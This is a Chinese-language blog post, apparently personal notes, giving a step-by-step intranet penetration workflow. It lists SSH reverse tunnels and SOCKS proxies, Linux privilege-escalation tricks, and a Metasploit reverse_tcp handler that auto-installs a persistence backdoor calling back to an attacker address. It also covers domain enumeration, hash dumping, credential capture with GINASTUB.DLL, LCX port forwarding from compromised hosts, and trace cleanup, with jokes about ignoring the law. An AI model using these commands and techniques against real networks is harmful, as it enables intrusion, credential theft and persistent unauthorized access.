

# 内网渗透思路整理

https://www.anquanke.com/post/id/85827

## 1.连接

### 渗透初探

### 一个概念

### 正向shell：

攻击者连接被攻击者机器，可用于攻击者处于内网，被攻击者处于公网的情况。

> 攻击者–>被攻击者

### 反向shell：

被攻击者主动连接攻击者，可用于攻击者处于外网，被攻击者处于内网的情况。

> 攻击者<–被攻击者

## 使用SSH通道：

```
ssh -qTfnN -L port:host:hostport -l user remote_ip                             \\正向隧道，监听本地port
```
```
ssh -qTfnN -R port:host:hostport -l user remote_ip                              \\反向隧道，用于内网穿透防火墙限制之类
```
```
ssh -qTfnN -D port remotehost          \\直接进行socks代理
```

## SSH端口转发：

```
Ssh -CfNg -L port1:127.0.0.1:port2 user@host 本地转发
```
```
Ssh -CfNg -R port2:127.0.0.1:port1 user@hsst 远程转发
```

## 拿到shell后的两个方向

### 如果是弟弟权限的机器，就提权：

先查看操作系统的发行版本： lsb_release -a

更具系统内核寻找相应的exp提权：

https://www.kernel-exploits.com/  (好像挂了，复活记得DD我，我去上个香。)

也可以用kali下的`searchsploit`命令
```
searchsploit      (版本号)
```


> 如果尝试的所有的exp都失败了，可以试一试新版本内核的exp。但是注意，内核exp提权有崩溃系统的风险。

一些其他的办法：

## 利用SUID提权

1. SUID是一种属性，他允许用户执行的文件以该文件的拥有者身份运行。3.81的nmap中可以使用交互模式以root执行任意系统命令。

2. 环境变量劫持的方法提权

3. Passwd文件是否可写，可写则修改密码登录

4. Shadow是否可读，可读则使用hashcat或john暴力破解

5. 使用web端的一些密码测试root密码是否相同

6. 使用命令 ls -l /etc/cron* 查看计划任务，也许会有脚本使自己成为root用户


# 后门

## 拿下一个shell容易(大雾)

但是对方服务器重启，web漏洞被补上，木马被删除，还能有办法保留住shell么？

(A:那么请问哪里可以买到呢？)

这里提供了几种持续后门的方法。(A:开始恰饭。)

## Msf的持续后门

## Persistence: 

```
run persistence -h：用于创建启动项启动，会创建注册表，创建文件。（X86_Linux不支持此脚本）
```
```
Run metsvc -h ：用于创建服务，会创建meterpreter服务，并上传三个文件，容易被杀（我的msf版本不支持）使用-r参数可以卸载服务
```
```
Mof_ps_persist
```

## Msf自动运行脚本

`Autorunscript`，一个十分强大的脚本，可以在生成会话的同事，执行指定的操作。可以通过autorunscript调用的脚本有6个，目录metasploit/scripts/meterpreter，有屏幕截图，获取环境变量等等。

### 创建渗透脚本resource_complete

```
use explit/multi/handler
```
```
set payload windows/meterpreter/reverse_tcp
```
```
set LHOST 192.168.175.128
set LPORT 2222
```
```
Set ExitOnSession false
```
```
Set AutoRunScript persistence -r *** -p 7231 -U -X -I 30
exploit -j -z
```

`Meterpreter `也可以，但是最近不能过免杀了。基本上赋值到桌面就没了。

# 2.收集信息.

> 不论什么途径获得的内网机器,确定他在内网后,我们首先就要了解这台机器的所属人员,如果我们的目标是公司,那我们就要了解这个人在公司里的职位,他是个什么身份,有多大的权利, 这都关系到他在内网里的`权限`.所以首先先不动声色悄咪咪的收集信息。       `俗话说的好，我自己收集的信息，怎么能叫偷呢，读书人的事那叫窃！     --窃格瓦拉·周树人`

> <h2> PS 期间你要记下你所掌握到的账号,密码这些重要数据,以后有一定的用,所以,记事本大法好。
</h2>

## 2.2信息归档

> 2-1.有了信息,我们就要对信息进行一定的归档,将每个机器名所对应的IP归档.方便用时不会乱.

## 网络分析

查看本机网络信息
```
ipconfig  /all                        \\真正的渗透高手！
net view                              \\ 查询一些存在联系的机器,一般以机器名显示,我们需要对其PING出IP,一是方便查询哪些重要机器的IP,二是方便查询存在几个段
net view /domain                      \\查询有几个域 因为大型网络里面一般不止一个域的
net group /domain                     \\查询域里面的组
net user /domain                      \\查询域用户
net group “domain admins” /domain     \\查询域管理用户组
```


### 使用代理探测内网(一般情况有授权就不用挂代理了)

代理工具众多，选择自己喜欢的就好。

### 使用nmap探测内网服务

（win下用`proxycap`或者`SRSniffer`）

如果只探测服务，`则查看hosts`，`扫描特定的服务`。

如果为了`探测整个内网，则全网段扫描`。

### 通过跳板对内网爆破

kali工具包中的Hydra可以爆破SSH。(日后总结)

https://www.freebuf.com/column/147625.html  

http://www.freebuf.com/column/152404.html

https://www.freebuf.com/sectool/170779.html

 //hydra教程

# 3.技术利用(开始搞事)

## 1..获取记录

不论是通过键盘记录.或者HASH的抓取,我们需要将账号,密码,邮箱,凡是涉及关键数据的全部保存,一方面是准备渗透的资料,二是防止当前利用机器会掉.

## 2.抓取域(如果有)

利用PWDUMP7或者GETHASHES进行抓取HASH,然后破解.GETHASHES V1.4后 可以抓取域的全部HASH.

## 3.尝试获取管理员信息

用GINASTUB.DLL获取管理员的账号和密码.因为域管理员有权限登陆任何一台机器.种上这个只是方便记录他所登陆的密码.INSTALL后,会在SYSYTEM32下生成一个 FAXMODE.INC 文件记录密码.(记事本大法好)


## 4.建立SOCKS链接

有了内网,很多东西我们是没有必要直接在当前利用机器上操作的,别人虽然是内网,但是不代表他没有防御系统,所以,我们建立SOCKS或者VPN是很有必要的,建立SOCKS相信大家都会了吧.(不会的你不会去fuck163吗)

> <h2>(ps)我在这推荐 `VIDC` 这个工具,很方便,在CMD下直接操 VIDC.EXE -D -P PORT 就可以了.(github有售)
</h2>

## 5.用SOCKSCAP来进行连接。

建立SOCKS后在本地可以用SOCKSCAP来进行连接,成功连接后该操作什么就看你们自己了.(把法律抛在脑后？！)

# 4.收拾残局

改删的删改留的留，我们是正经渗透团队！你要信我呀。

> <h2>删库到跑路？(大雾)

- 内网端口转发与代理工具总结

- http://www.91ri.org/17457.html
- https://www.freebuf.com/articles/network/210653.html
- https://www.freebuf.com/articles/web/181723.html
- https://www.freebuf.com/articles/web/170970.html
- https://www.jianshu.com/p/735e8f1746f0


## windows端口转发工具（LCX）

端口转发（Port forwarding），有时被叫做隧道，是安全壳(SSH) 为网络安全通信使用的一种方法。端口转发是转发一个网络端口从一个网络节点到另一个网络节点的行为，其使一个外部用户从外部经过一个被激活的NAT路由器到达一个在私有内部IP地址（局域网内部）上的一个端口。

这里我就用工具是Lcx，Lcx.exe是一个端口转发工具，相当于把肉鸡A上的3389端口转发到具有外网IP地址的B机上，这样连接B机的3389端口就相当于链接A机的3389端口。Lcx程序多用于被控制计算机(肉鸡)处于内网的情况，被控制机可能中了木马程序，虽然能够进行控制，但还是没有使用远程终端登陆到本机进行管理方便，因此在很多情况下，都会想方设法在被控制计算机上开启3389端口，然后通过lcx等程序进行端口转发，进而在本地连接到被控制计算机的远程终端并进行管理和使用。


在目标机器上执行lcx.exe -slave 公网ip 端口 内网ip 端口

例如：`lcx.exe –slave 154.223.*.* 51 192.168.*.* 3389` 将内网的3389端口转发到公网的51端口

然后在公网的机器上：Lcx.exe –listen 监听51端口，转发到公网机器的3389端口

例如：`Lcx.exe –listen 51 3389`

